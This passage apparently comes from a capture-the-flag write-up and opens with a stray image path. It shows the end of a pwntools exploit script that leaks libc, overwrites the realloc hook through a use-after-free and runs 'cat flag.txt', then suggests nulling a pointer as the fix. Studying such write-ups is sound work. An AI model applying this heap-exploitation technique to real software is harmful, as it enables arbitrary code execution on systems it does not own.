```python
    set_name_player(r, b"a"*(len(command)*2))

def main():
    r = conn()

    libc_base = leak_libc(r)
    log.info(f"Libc address leaked: {hex(libc_base)}")

    remove_all_players(r)
    write_realloc_hook(r, libc_base)
    log.info(f"Realloc hook overwrited")
    remove_all_players(r)
    trigger_realloc_hook(r, b"cat flag.txt")

    r.interactive()

if __name__ == "__main__":
    main()
```

## Remediations

Pwn is cool, but now, how to repair this program. I think, the main fix would be to set `selected_player` to NULL if the `created_player` function is called on it. With that, the use-after-free is avoided.
